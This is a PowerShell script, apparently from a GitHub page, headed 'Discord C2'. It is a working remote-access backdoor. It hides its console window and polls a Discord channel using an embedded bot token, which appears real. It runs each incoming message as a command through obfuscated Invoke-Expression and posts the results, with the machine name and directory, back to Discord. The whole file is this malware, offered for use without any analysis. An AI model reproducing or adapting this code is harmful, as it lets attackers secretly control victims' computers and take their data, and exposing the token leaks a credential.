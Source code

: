
# ================================================================ Discord C2 ======================================================================

$token = "MTMwMzcyNTUzMjE1OTkzNDU2NA.GEGimP._P3Z8pgcu5fGSYvvdhCwMlNoFKXmD8WyccZrzw" # make sure your bot is in the same server as the webhook
$chan = "1303720869809492039" # make sure the bot AND webhook can access this channel

# =============================================================== SCRIPT SETUP =========================================================================

$response = $null
$previouscmd = $null
$authenticated = 0
$HideWindow = 1 # HIDE THE WINDOW - Change to 1 to hide the console window while running

function PullMsg {
    $headers = @{
        'Authorization' = "Bot $token"
    }
    $webClient = New-Object System.Net.WebClient
    $webClient.Headers.Add("Authorization", $headers.Authorization)
    $response = $webClient.DownloadString("https://discord.com/api/v9/channels/$chan/messages")
    
    if ($response) {
        $most_recent_message = ($response | ConvertFrom-Json)[0]
        if (-not $most_recent_message.author.bot) {
            $response = $most_recent_message.content
            $script:response = $response
            $script:messages = $response
        }
    } else {
        Write-Output "No messages found in the channel."
    }
}


function sendMsg {
    param([string]$Message)
    $dir = $PWD.Path
    $url = "https://discord.com/api/v9/channels/$chan/messages"
    $webClient = New-Object System.Net.WebClient
    $webClient.Headers.Add("Authorization", "Bot $token")
    if ($Message) {
            $jsonBody = @{
                "content" = "$Message"
                "username" = "$dir"
            } | ConvertTo-Json
            $webClient.Headers.Add("Content-Type", "application/json")
            $response = $webClient.UploadString($url, "POST", $jsonBody)
            Write-Host "Message sent to Discord"
        }
    }


Function HideConsole{
    If ($HideWindow -gt 0){
    $Async = '[DllImport("user32.dll")] public static extern bool ShowWindowAsync(IntPtr hWnd, int nCmdShow);'
    $Type = Add-Type -MemberDefinition $Async -name Win32ShowWindowAsync -namespace Win32Functions -PassThru
    $hwnd = (Get-Process -PID $pid).MainWindowHandle
        if($hwnd -ne [System.IntPtr]::Zero){
            $Type::ShowWindowAsync($hwnd, 0)
        }
        else{
            $Host.UI.RawUI.WindowTitle = 'hideme'
            $Proc = (Get-Process | Where-Object { $_.MainWindowTitle -eq 'hideme' })
            $hwnd = $Proc.MainWindowHandle
            $Type::ShowWindowAsync($hwnd, 0)
        }
    }
}

Function Authenticate{
    if ($response -like "$env:COMPUTERNAME"){
        $script:authenticated = 1
        $script:previouscmd = $response
        sendMsg -Message ":white_check_mark:  **$env:COMPUTERNAME** | ``Session Started!``  :white_check_mark:"
        sendMsg -Message "``PS | $dir>``"
    }
    else{
        $script:authenticated = 0
        $script:previouscmd = $response
    } 
}

# =============================================================== MAIN LOOP =========================================================================

HideConsole
PullMsg
$previouscmd = $response
sendMsg -Message ":hourglass:  **$env:COMPUTERNAME** | ``Session Waiting..``  :hourglass:"

while ($true) {
    PullMsg
    if (!($response -like "$previouscmd")) {
        $dir = $PWD.Path
        Write-Output "Command found!"
        if ($authenticated -eq 1) {
            if ($response -like "close") {
                $previouscmd = $response        
                sendMsg -Message ":octagonal_sign:  **$env:COMPUTERNAME** | ``Session Closed.``  :octagonal_sign:"
                break
            }
            if ($response -like "Pause") {
                $script:authenticated = 0
                $previouscmd = $response
                sendMsg -Message ":pause_button:  **$env:COMPUTERNAME** | ``Session Paused..``  :pause_button:"
                sleep -m 250
                sendMsg -Message ":hourglass:  **$env:COMPUTERNAME** | ``Session Waiting..``  :hourglass:"
            }
            elseif (!($response -like "$previouscmd")) {
                $Result = ie`x($response) -ErrorAction Stop
                if (($result.length -eq 0) -or ($result -contains "public_flags") -or ($result -contains "                                           ")) {
                    $script:previouscmd = $response
                    sendMsg -Message ":white_check_mark:  ``Command Sent``  :white_check_mark:"
                    sleep -m 250
                    sendMsg -Message "``PS | $dir>``"
                }
                else {
                    $script:previouscmd = $response
                    $resultLines = $Result -split "`n"
                    $maxBatchSize = 1900
                    $currentBatchSize = 0
                    $batch = @()
                    foreach ($line in $resultLines) {
                        $lineSize = [System.Text.Encoding]::Unicode.GetByteCount($line)
                        if (($currentBatchSize + $lineSize) -gt $maxBatchSize) {
                            sendMsg -Message "``````$($batch -join "`n")``````"
                            sleep -m 400
                            $currentBatchSize = 0
                            $batch = @()
                        }
                        $batch += $line
                        $currentBatchSize += $lineSize
                    }
                    if ($batch.Count -gt 0) {
                        sendMsg -Message "``````$($batch -join "`n")``````"
                        sleep -m 250
                    }
                    sendMsg -Message "``PS | $dir>``"
                }
            }
        } else {
            Authenticate
        }
    }
    sleep 5
}
